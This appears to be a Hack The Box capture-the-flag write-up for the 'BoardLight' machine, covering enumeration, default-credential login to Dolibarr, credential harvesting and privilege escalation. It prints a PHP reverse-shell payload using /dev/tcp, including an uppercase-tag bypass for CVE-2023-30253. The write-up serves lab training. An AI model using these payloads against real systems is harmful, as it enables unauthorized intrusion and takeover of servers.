 ```yaml
---
date: 2024-09-27T22:53:03-05:00
# description: ""
image: "/images/HTB-BoardLight/BoardLight.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: BoardLight"
type: "post"
---
```


* Platform: Hack The Box
* Link: [BoardLight](https://app.hackthebox.com/machines/BoardLight)
* Level: Easy
* OS: Linux
---

BoardLight begins with a subdomain discovery where we find a Dolibarr instance, which we access by using default credentials. The initial foothold is obtained via a PHP reverse shell coupled with an uppercase manipulation technique. From there we discover a configuration file containing credentials, allowing us to take over another account. Finally, we gain root privileges by exploiting a vulnerability in Enlightenment.

Target IP address - `10.10.11.11`

## Scanning

```
./nmap_scan.sh 10.10.11.11 BoardLight
```

**Results**

```shell
Running detailed scan on open ports: 22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 23:01 CDT
Nmap scan report for 10.10.11.11
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: board.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.05 seconds
```

We discover two open ports: SSH (22) and HTTP (80), we also add `board.htb` to the hosts file to facilitate the enumeration.

## Enumeration

At `http://board.htb/` we find a static website for a cybersecurity consulting firm. The buttons are not functional and nothing really stands out. 

![BoardLight website](/images/HTB-BoardLight/boardlight_website.png)

We try directory brute forcing but nothing intersting is found.

```
gobuster dir -u http://board.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![Directory bruteforcing](/images/HTB-BoardLight/gobuster_cmd.png)

With subdomain enumeration we find a valid subdomain called `crm`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://board.htb -H "Host: FUZZ.board.htb" -ic -fs 15949
```

![Subdomain enumeration](/images/HTB-BoardLight/ffuf_cmd.png)

At `http://crm.board.htb/` we find a login page for [Dolibarr](https://www.dolibarr.org/).

![Dolibarr ERP](/images/HTB-BoardLight/crm_board.png)

With a quick Google search we discover that the default credentials for Dolibarr instances are `admin:admin` and using them grant us access.

![Dolibarr default credentials](/images/HTB-BoardLight/Dolibarr_default_creds.png)

![Dolibarr dashboard](/images/HTB-BoardLight/dolibarr_dashboard.png)

Although CRM, CMS, and ERP systems serve different purposes, they often share a common vulnerability: once logged in, it's frequently possible to achieve remote code execution (RCE) by executing custom code.

In the`Websites` section we create a new website.

![Dolibarr new website](/images/HTB-BoardLight/new_website.png)

Then we create a page.

![Dolibarr new page](/images/HTB-BoardLight/new_page.png)

After the creation of the page there is a `Edit HTML Source` button we can use to add some custom code.

![Edit HTML source button](/images/HTB-BoardLight/edit_source.png)

We try a basic php reverse shell.

```php
<?php system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr reverse shell](/images/HTB-BoardLight/rev_shell1.png)

We then get an error, it seems that we cannot use `system`. From here we can either find another method to get a shell or try to bypass the security measure.

![Dolibarr php system error](/images/HTB-BoardLight/error_dolibarr.png)

## Initial Foothold

Searching exploits for Dolibarr, we find [this page](https://www.vicarius.io/vsociety/posts/exploiting-rce-in-dolibarr-cve-2023-30253-30254) for `CVE-2023-30253` allowing us to get remote code execution via uppercase manipulation.

Let's try again with the php in uppercase letters (PHP).

```php
<?PHP system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr RCE](/images/HTB-BoardLight/Dolibar_rce.png)

After saving the modified code we get a shell as `www-data`.

![foothold shell](/images/HTB-BoardLight/foothold.png)

Checking the `passwd` file we notice a user called `larissa` and of course we cannot access her home directory.

![larissa user](/images/HTB-BoardLight/larissa_user.png)

After using linpeas for the system enumeration we find a configuration directory at `/var/www/html/crm.board.htb/htdocs/conf/`.

![linpeas results](/images/HTB-BoardLight/linpeas_results.png)

![conf directory](/images/HTB-BoardLight/conf_directory.png)

We then find some credentials in the `conf.php` file.

![dolibar conf credentials](/images/HTB-BoardLight/dolibarr_creds.png)

With the password we access larissa's account via SSH and find the user flag in her home directory.

![user flag](/images/HTB-BoardLight/user_flag.png)

## Privilege Escalation

We discover that larissa is not allowed to run sudo.

![sudo command](/images/HTB-BoardLight/sudo_cmd.png)

Let's run linpeas again to find some leads for privilege escalation. A file called `enlightenment` owned by root with the SUID bit set stands out, there is also a reference to [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).

![SUID on enlightenment binary](/images/HTB-BoardLight/suid-file.png)

[Here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) we find a PoC for the vulnerability. After running the script on the target we gain root privileges and the root flag is accessible at `/root/root.txt`.

![root flag](/images/HTB-BoardLight/root_flag.png)

Thanks for reading this write up!

